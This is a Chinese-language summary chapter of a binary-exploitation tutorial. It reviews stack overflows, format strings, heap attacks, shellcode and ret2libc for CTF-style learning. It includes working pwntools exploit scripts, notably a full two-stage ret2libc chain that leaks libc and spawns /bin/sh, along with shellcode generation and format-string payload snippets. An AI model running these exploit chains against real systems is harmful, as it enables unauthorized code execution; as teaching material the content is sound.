






## 总结

本节对"核心技巧"部分的全部内容进行系统性回顾、横向对比和进阶指引。如果你是从头读到这里的读者，这一节帮你把零散的技术点串成完整的知识体系；如果你是跳跃阅读的读者，这一节也是整个模块的独立导览。

### 本章核心技巧全景图



---

### 十大技术回顾

#### 1. 栈溢出利用——一切的起点

栈溢出是最经典、最直观的内存破坏漏洞，也是学习其他所有利用技术的基础。

**核心原理：** 程序向栈上固定大小的缓冲区写入超出其容量的数据，溢出的数据会覆盖相邻的保存帧指针（EBP/RBP）和返回地址（EIP/RIP），从而劫持程序控制流。

**利用路径演进：**

| 阶段 | 技术 | 前提条件 | 绕过的保护 |
|------|------|----------|-----------|
| 最原始 | 直接跳转Shellcode | 栈可执行（NX关闭） | 无 |
| NX开启 | ROP链 | 需要足够的gadget | NX（DEP） |
| Canary开启 | 泄露/绕过Canary | 信息泄露能力或暴力破解 | Stack Canary |
| PIE开启 | 先泄露程序基址 | 信息泄露原语 | PIE/ASLR |
| 全保护 | 组合技术 | 多步利用 | NX+Canary+PIE+ASLR |

**关键代码模式——识别栈溢出漏洞：**

```c
// 危险函数清单（永远不检查边界）
gets(buf);              // 绝对危险，已被C11废除
strcpy(dest, src);      // 无长度检查
strcat(dest, src);      // 无长度检查
sprintf(buf, fmt, ...); // 格式化输出无边界
scanf("%s", buf);       // 读取字符串无边界
```

**安全替代方案：** `fgets`、`strncpy`、`snprintf`、`scanf("%64s", buf)`。在实际审计中，看到上述危险函数就要立刻标注为潜在漏洞点。

---

#### 2. 格式化字符串漏洞——瑞士军刀式的漏洞

格式化字符串漏洞的特殊之处在于：它同时具备**信息泄露**和**任意地址写入**两种能力，是一种"全能型"漏洞。

**核心原理：** `printf(buf)` 将用户输入直接作为格式化字符串。`%p` 泄露栈上数据，`%n` 向指定地址写入已输出的字符数。

**利用能力矩阵：**

| 格式符 | 功能 | 安全影响 |
|--------|------|----------|
| `%p` / `%x` | 读取栈上的值 | 信息泄露（libc地址、栈地址、Canary） |
| `%s` | 读取指针指向的内存 | 任意地址读取 |
| `%n` | 写入已输出字符数到地址 | 任意地址写入 |
| `%hn` / `%hhn` | 写入2字节/1字节 | 精确写入，减少输出量 |
| `%N$p` | 读取第N个参数 | 精确泄露栈偏移 |
| `%N$n` | 写入第N个参数位置 | 精确覆写栈上的地址 |

**典型攻击流程：**

1. **定位偏移**：发送 `%p.%p.%p...`，找到输入在栈上的位置
2. **泄露信息**：利用格式化字符串读取 GOT 表项，获取 libc 地址
3. **写入利用**：利用 `fmtstr_payload(offset, {addr: value})` 构造任意写

```python
from pwn import *

# pwntools 的 fmtstr_payload 自动生成格式化字符串 payload
# offset: 输入在格式化参数中的偏移
# writes: {目标地址: 要写入的值} 字典
payload = fmtstr_payload(6, {elf.got['printf']: libc.symbols['system']})
```

**防御要点：** 永远使用 `printf("%s", buf)` 而非 `printf(buf)`。编译器的 `-Wformat-security` 选项会在检测到此类问题时发出警告。

---

#### 3. 整数溢出利用——隐蔽的漏洞源头

整数溢出本身不直接导致代码执行，但它是触发其他内存破坏漏洞（堆溢出、栈溢出、越界访问）的常见前置条件。

**核心原理：** C/C++ 的整数运算是模运算，运算结果超出类型范围时不会报错，而是回绕（wrap around）。

**三种整数安全问题对比：**

| 类型 | 原理 | 典型场景 | 后果 |
|------|------|----------|------|
| 无符号溢出 | `UINT_MAX + 1 = 0` | `malloc(size + 1)` 当 size=0xFFFFFFFF | 分配0字节，后续写入堆溢出 |
| 有符号溢出 | `INT_MAX + 1 = INT_MIN` | `if (len < MAX_LEN)` 绕过检查 | 负数被当作大正数处理 |
| 整数截断 | `int` 赋值给 `short` | `(short)0x10001 = 1` | 实际大小远小于预期 |
| 有符号/无符号混用 | `size_t` 接收负数 | `malloc(-1)` 变成极大值 | 内存分配失败或异常 |

**真实案例——CVE-2014-0160 (Heartbleed)：**

Heartbleed 漏洞的根因之一就涉及整数问题。OpenSSL 的 TLS Heartbeat 扩展中，攻击者发送一个声称长度为 65535 字节的 heartbeat 请求，但实际数据只有 1 字节。服务器没有正确验证 `payload_length` 字段与实际数据长度的一致性，导致越界读取最多 64KB 的进程内存（可能包含私钥、会话凭证等敏感数据）。

```c
// Heartbleed 漏洞的本质（简化）
// 攻击者控制 payload_length，服务器未验证
unsigned short payload_length = ntohs(*(unsigned short *)p);
// payload_length 可以是 65535，但实际数据只有 1 字节
// 服务器按 payload_length 长度回复，泄露了相邻内存
```

**防御：** 所有涉及内存分配、数组索引、长度计算的整数运算都必须进行溢出检查。使用 `<stdint.h>` 中的定宽类型，以及编译器的 `-fsanitize=integer` 选项进行运行时检测。

---

#### 4. Use-After-Free——浏览器和内核的噩梦

UAF 是现代高价值目标（浏览器、内核）中最常见的漏洞类型之一。它的利用难度比栈溢出高得多，但攻击面也更广。

**核心原理：** 释放（`free`）一块堆内存后，指向该内存的指针没有被置为 `NULL`。在释放和重新分配之间的时间窗口内，如果程序通过旧指针访问内存，读写的可能是已被新对象占用的数据。

**UAF 的三种利用模式：**



**与堆利用的关系：** UAF 是堆利用的核心原语之一。Fast Bin Attack 的 Double Free 本质上就是一种 UAF——释放后再释放，操纵 free list 指针，在目标地址分配 chunk。

**真实案例：** Chrome 浏览器的 Blink 引擎中大量使用引用计数管理 DOM 对象。当事件处理程序在对象释放后仍持有引用，就产生 UAF。例如 CVE-2020-6507（Chrome V8 UAF）就是利用 JavaScript 触发对象释放后继续访问。

---

#### 5. 堆利用——高级利用的殿堂

堆利用是二进制安全中最复杂的领域。它要求攻击者深入理解堆分配器（glibc ptmalloc2、jemalloc、tcmalloc）的内部数据结构和管理逻辑。

**glibc ptmalloc2 核心利用技术对比：**

| 技术 | 利用原理 | 前提条件 | 写入能力 | 难度 |
|------|----------|----------|----------|------|
| **Fast Bin Attack** | 操纵 fast bin 链表的 fd 指针 | UAF 或 Double Free | 在目标地址分配 chunk | ★★★ |
| **Unsorted Bin Attack** | 覆写 unsorted bin 的 bk 指针 | 堆溢出或 UAF | 向任意地址写入一个大值（main_arena 地址） | ★★★ |
| **House of Spirit** | 伪造 chunk 头部 | 栈上或可控位置 | 将伪造 chunk 注入 free list | ★★★ |
| **House of Force** | 修改 top chunk 的 size | 可修改 top chunk | 精确分配到任意地址 | ★★★★ |
| **House of Lore** | 操纵 small bin 链表 | 堆溢出 + UAF | 在任意地址分配 | ★★★★ |
| **House of Orange** | 不调用 free 直接利用 top chunk | 堆溢出 | 触发 _IO_list_all 劫持 | ★★★★★ |
| **Tcache Poisoning** | 操纵 tcache 的 fd 指针（glibc 2.26+） | UAF 或 Double Free | 在任意地址分配 chunk（最简单） | ★★ |
| **Tcache Stashing** | 利用 tcache 与 small bin 交互 | 堆溢出 + UAF | 批量写入多个地址 | ★★★★ |

**利用决策流程：**



---

#### 6. Shellcode 编写——注入的载荷

Shellcode 是攻击者最终在目标机器上执行的机器码。编写 Shellcode 需要满足严格的约束条件。

**关键约束与应对：**

| 约束 | 原因 | 解决方案 |
|------|------|----------|
| 不含空字节（`\x00`） | `strcpy` 等函数以空字节为终止符 | 使用等价指令替代（`xor reg, reg` 替代 `mov reg, 0`） |
| 不含换行符（`\x0a`） | `gets`、`fgets` 以换行为终止符 | 编码或重组指令 |
| 尽量短小 | 栈上缓冲区有限 | 使用自修改代码、多阶段加载 |
| 位置无关（PIC） | ASLR 导致地址不确定 | 使用相对寻址（`call/pop` 技术） |
| 系统调用正确 | Linux x86 使用 `int 0x80`，x64 使用 `syscall` | `eax`=系统调用号，参数按约定放入寄存器 |

**Shellcode 能力等级：**

- **Level 1：** `execve("/bin/sh")` — 最基础，获取 shell
- **Level 2：** `execve("/bin/sh", argv, envp)` — 带参数，可执行命令
- **Level 3：** `connectback` shell — 反弹 shell，连接攻击者
- **Level 4：** `bindshell` — 绑定端口，等待连接
- **Level 5：** Staged shellcode — 分阶段加载，先注入小型 loader

**pwntools 快速生成：**

```python
from pwn import *
context.arch = 'amd64'

# 自动生成 shellcode，自动处理坏字符
sc = asm(shellcraft.sh(), avoid=b'\x00\x0a\x0d')
```

---

#### 7. ret2libc——绕过 NX 的经典手段

当栈不可执行（NX 开启）时，不能直接执行栈上的 Shellcode。ret2libc 利用程序链接的 libc 中已有的函数（如 `system`、`execve`）来达成目的。

**核心原理：** 通过 ROP 链将控制流导向 libc 中的函数，传入 `/bin/sh` 字符串作为参数。

**利用链结构：**

```text
栈布局：
[padding] [pop rdi; ret gadget] ["/bin/sh" address] [system address]
```

**两种获取 libc 基址的方法：**

| 方法 | 原理 | 适用场景 |
|------|------|----------|
| 泄露 GOT 表项 | 调用 `puts(puts@GOT)` 输出 puts 真实地址 | 程序有可用的 PLT 条目 |
| 泄露栈上的 libc 地址 | 栈上残留 libc 返回地址，格式化字符串读取 | 有格式化字符串漏洞 |
| `__libc_start_main` 返回地址 | 栈上存在 `__libc_start_main+xxx` | 程序刚启动时 |
| `/proc/pid/maps` 读取 | 本地提权场景 | 有任意文件读取能力 |

```python
from pwn import *

# 两阶段利用：先泄露，再利用
# 第一阶段：泄露 libc 地址
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
payload = b'A' * offset
payload += p64(pop_rdi) + p64(elf.got['puts'])  # puts(puts@GOT)
payload += p64(elf.plt['puts'])                   # 输出 puts 真实地址
payload += p64(elf.symbols['main'])               # 返回 main 再次利用

p.sendline(payload)
puts_real = u64(p.recvline().strip().ljust(8, b'\x00'))
libc_base = puts_real - libc.symbols['puts']

# 第二阶段：执行 system("/bin/sh")
system = libc_base + libc.symbols['system']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
payload2 = b'A' * offset
payload2 += p64(pop_rdi) + p64(bin_sh) + p64(system)
```

---

#### 8. GOT 覆写——持久化劫持

GOT（Global Offset Table）覆写的核心价值在于：它改变了函数的**真实地址**，而不仅仅是某一次调用的返回地址。这意味着后续**所有**对该函数的调用都会被劫持。

**GOT/PLT 机制回顾：**



**GOT 覆写 vs. ROP 对比：**

| 维度 | GOT 覆写 | ROP 链 |
|------|----------|--------|
| 利用前提 | Partial RELRO（GOT 可写） | 栈上有足够 gadget |
| 持久性 | 持久——改变后续所有调用 | 一次性——仅当前执行流 |
| 复杂度 | 需要写原语（格式化字符串等） | 需要栈溢出 + gadget |
| 典型配合 | 格式化字符串 + GOT覆写 | 栈溢出 + ROP |
| Full RELRO | ❌ 不可用（GOT 只读） | ✅ 仍然可用 |

**注意：** 当目标程序使用 Full RELRO 编译时（`-Wl,-z,relro,-z,now`），GOT 在程序启动时就完成所有符号解析并设为只读，GOT 覆写不再可行。此时需要转向 ROP、堆利用等技术。

---

#### 9. 信息泄露——绕过 ASLR 的钥匙

信息泄露不是最终目的，而是高级利用的**前置条件**。没有信息泄露，就无法计算 libc、栈、堆的基址，也就无法构造精确的攻击。

**泄露目标与方法汇总：**

| 泄露目标 | 需要泄露什么 | 泄露方法 | 计算基址方式 |
|----------|-------------|----------|-------------|
| libc 基址 | 任意一个 libc 函数的真实地址 | GOT 表项、栈上残留、`__libc_start_main` | `真实地址 - 静态偏移` |
| 栈地址 | 栈上某位置的地址 | `/proc/self/maps`、格式化字符串、`environ` 指针 | 直接使用或计算偏移 |
| 堆地址 | 堆上某 chunk 的地址 | unsorted bin 的 fd/bk 指针、UAF 读取 | `chunk_addr - 偏移` |
| 程序基址 | 程序某函数的地址 | 非 PIE 程序直接已知；PIE 需泄露 | `真实地址 - 静态偏移` |
| Canary 值 | 栈上的 canary | 格式化字符串、逐字节暴力（fork server） | 直接用于覆盖 |

**ASLR 随机化范围速查：**

```text
ASLR 随机化粒度（Linux x86-64）：
├── 栈地址：    28 位随机（每次不同）
├── 堆地址：    28 位随机
├── libc 地址： 28 位随机（但页面内偏移固定）
├── vDSO 地址： 28 位随机
├── 程序（无 PIE）：固定地址（不随机化）
└── 程序（有 PIE）：28 位随机

部分覆写技巧（Partial Overwrite）：
- 仅覆写地址的低 2-3 字节
- 低 12 位（页内偏移）固定，只需猜 4-12 位
- 成功率：1/16（4位）到 1/1（无需猜）
```

---

#### 10. 工具与技巧——实战效率的关键

工具不是万能的，但没有工具是万万不能的。二进制安全研究的效率高度依赖于工具链的熟练度。

**核心工具对比：**

| 工具 | 用途 | 必备程度 |
|------|------|----------|
| **pwntools** | Exploit 开发框架（Python） | ★★★★★ 必备 |
| **GDB + pwndbg/gef** | 动态调试、内存查看 | ★★★★★ 必备 |
| **Ghidra / IDA Pro** | 静态逆向分析 | ★★★★☆ 必备 |
| **ROPgadget / ropper** | 搜索 ROP gadget | ★★★★☆ 重要 |
| **one_gadget** | 查找 libc 中的 execve gadget | ★★★★☆ 重要 |
| **checksec** | 查看二进制保护机制 | ★★★★★ 必备 |
| **libc-database** | 通过泄露地址反查 libc 版本 | ★★★☆☆ 常用 |
| **angr** | 符号执行、自动求解 | ★★★☆☆ 进阶 |
| **QEMU + pwninit** | 跨架构调试、自动 patch | ★★☆☆☆ 进阶 |

**checksec 输出解读：**

```bash
$ checksec --file=./vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO      # GOT 可写 → GOT覆写可用
    Stack:    No canary found     # 无 Canary → 栈溢出直接利用
    NX:       NX disabled         # 栈可执行 → 直接执行 Shellcode
    PIE:      No PIE              # 程序地址固定 → 直接使用硬编码地址
    RWX:      Has RWX segments    # 存在可读写执行段 → Shellcode 注入
```

**每种保护对应的绕过策略：**

| 保护机制 | 开启时的影响 | 绕过方法 |
|----------|-------------|----------|
| NX (DEP) | 栈/堆不可执行 | ret2libc、ROP、ret2csu |
| Stack Canary | 栈溢出前检查 canary | 泄露 canary、暴力破解（fork server）、覆盖 canary 低位 |
| PIE | 程序基址随机化 | 泄露程序地址、部分覆写 |
| Full RELRO | GOT 只读 | 放弃 GOT 覆写，转向 ROP |
| ASLR | libc/栈/堆随机 | 信息泄露 |
| FORTIFY_SOURCE | 检测缓冲区溢出函数 | 规避被保护的函数调用 |

---

### 技术组合——真实利用链的构造

在真实场景（CTF、漏洞利用）中，单一技术很少能完成完整攻击。典型的利用链需要多种技术组合。

**典型利用链模式：**



**实战案例——组合利用链（Stack Overflow + Leak + ret2libc）：**

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

elf = ELF('./vuln')
libc = ELF('./libc.so.6')
p = process('./vuln')

# 第一步：识别保护
# checksec: Partial RELRO, No Canary, NX enabled, No PIE
# 结论：栈溢出可用，但不能直接执行 shellcode，需要 ret2libc

# 第二步：信息泄露（两次溢出）
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# 第一次溢出：泄露 puts 真实地址
payload1 = b'A' * 72
payload1 += p64(pop_rdi)
payload1 += p64(elf.got['puts'])
payload1 += p64(elf.plt['puts'])
payload1 += p64(elf.symbols['main'])  # 回到 main，再次溢出
p.sendline(payload1)

puts_addr = u64(p.recvline().strip().ljust(8, b'\x00'))
libc_base = puts_addr - libc.symbols['puts']
log.success(f"libc base: {hex(libc_base)}")

# 第三步：ret2libc 获取 shell
system = libc_base + libc.symbols['system']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
ret_gadget = rop.find_gadget(['ret'])[0]  # 栈对齐

payload2 = b'A' * 72
payload2 += p64(ret_gadget)   # 栈对齐（16字节对齐）
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh)
payload2 += p64(system)

p.sendline(payload2)
p.interactive()
```

---

### 常见错误与陷阱

在学习和实战中，以下错误最为常见：

#### 陷阱 1：忽略栈对齐

在 x86-64 Linux 上，`movaps` 指令要求 16 字节栈对齐。如果 ROP 链跳转到使用 `movaps` 的函数（如 `system`）时栈未对齐，程序会直接 SIGSEGV 崩溃。

```python
# 解决方案：在 ROP 链中插入一个 ret gadget 来对齐栈
ret = rop.find_gadget(['ret'])[0]
payload = b'A' * offset + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

#### 陷阱 2：libc 版本不匹配

泄露的 libc 地址偏移与你使用的 libc 文件不一致，导致计算出的 `system` 地址错误。必须精确匹配 libc 版本。

```bash
# 使用 libc-database 反查版本
./find puts 0x80a30
# 或使用 pwntools 的 libcdb
from pwn import *
libc = libcdb.search_by_libc_id(puts_offset=puts_addr & 0xfff)
```

#### 陷阱 3：格式化字符串偏移计算错误

格式化字符串中 `%N$p` 的 N 不是你想象的"第 N 个参数"，而是相对于栈帧的偏移。不同的编译选项、优化级别会改变栈布局。

```python
# 正确做法：用循环测试偏移
for i in range(1, 30):
    p = process('./vuln')
    p.sendline(f'%{i}$p'.encode())
    val = p.recvline().strip()
    print(f'offset {i}: {val}')
    p.close()
```

#### 陷阱 4：Tcache 与 Fast Bin 的混淆

glibc 2.26 引入了 Tcache（Thread Local Cache），它优先于 Fast Bin。在 Tcache 未满（默认最多 7 个 entry）时，`free` 的 chunk 进入 Tcache 而非 Fast Bin。很多老教程的 Fast Bin Attack 步骤在新版本 glibc 上直接失败。

```python
# 检查 glibc 版本
p = process('./vuln')
print(p.libc.version)  # 如 (2, 31)

# glibc >= 2.26: 优先使用 Tcache Poisoning
# glibc < 2.26: 使用 Fast Bin Attack
```

#### 陷阱 5：one_gadget 的使用条件被忽略

`one_gadget` 找到的地址不是无条件可用的。每个 one_gadget 都有前置条件（如 `rsp & 0xf == 0`、`[rsp+0x40] == NULL`）。直接跳转不满足条件就会崩溃。

```bash
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe3b01 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe3b04 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [[rsp+0x40]] == NULL
```

#### 陷阱 6：忘记远程环境差异

本地调试一切正常，但远程 exploit 崩溃。常见原因：
- libc 版本不同（本地和远程的 libc.so.6 不一样）
- 环境变量差异影响栈布局（`/bin/sh` 偏移不同）
- ASLR seed 不同导致地址差异

```python
# 最佳实践：始终使用远程的 libc
# 下载远程 libc: scp target:/lib/x86_64-linux-gnu/libc.so.6 ./
# 或使用 pwninit 自动 patch 二进制
```

---

### 学习路径与进阶指引

#### 分阶段学习路线图



#### 推荐练习平台

| 平台 | 难度 | 特点 | 网址 |
|------|------|------|------|
| pwn.college | 入门→进阶 | 系统化课程，从零开始 | pwn.college |
| CTFHub | 入门→中级 | 中文，分类清晰 | ctfhub.com |
| BUUCTF | 中级 | 大量真题 | buuoj.cn |
| Hack The Box | 中级→高级 | 真实环境 | hackthebox.com |
| LiveOverflow | 入门 | 视频教程配合练习 | YouTube |
| Nightmare | 中级 | CTF writeup 汇编 | github.com/guyinatuxedo/nightmare |

#### 必读参考资料

- **《Hacking: The Art of Exploitation》** — Jon Erickson，入门经典
- **《The Shellcoder's Handbook》** — 漏洞利用实战
- **《Hacking: The Art of Exploitation》** — Jon Erickson，从原理到利用
- **《Android Hacker's Handbook》** — 移动端安全
- **glibc 源码** — 堆利用必须读懂 malloc.c
- **CTF Wiki** — https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/

---

### 核心技巧速查表

| 漏洞类型 | 利用技术 | 关键原语 | 典型配合 |
|----------|----------|----------|----------|
| 栈溢出 | 控制 EIP/RIP | 覆盖返回地址 | Shellcode / ROP / ret2libc |
| 格式化字符串 | 任意读 + 任意写 | `%p` 泄露 / `%n` 写入 | GOT 覆写 / 泄露 libc |
| 整数溢出 | 触发其他漏洞 | 模运算回绕 | 堆溢出 / 栈溢出 |
| UAF | 堆控制 | 释放后访问悬垂指针 | 堆利用 / 虚函数劫持 |
| 堆溢出 | 操纵堆元数据 | 覆写 chunk 头 / fd/bk | Fast Bin / Tcache / Unsorted Bin |
| Off-by-one | Chunk 重叠 | 多写 1 字节覆盖 prev_inuse | House of Einherjar |

**记住：** 这些技术不是孤立的，而是相互依赖、层层递进的。栈溢出是基础，格式化字符串是瑞士军刀，堆利用是高级殿堂，信息泄露是它们共同的桥梁。掌握这些技术需要大量的动手练习——光看不练等于没学。从 pwn.college 的入门题开始，每天调试一个程序，逐步进阶到 CTF 真题和 CVE 分析。

***
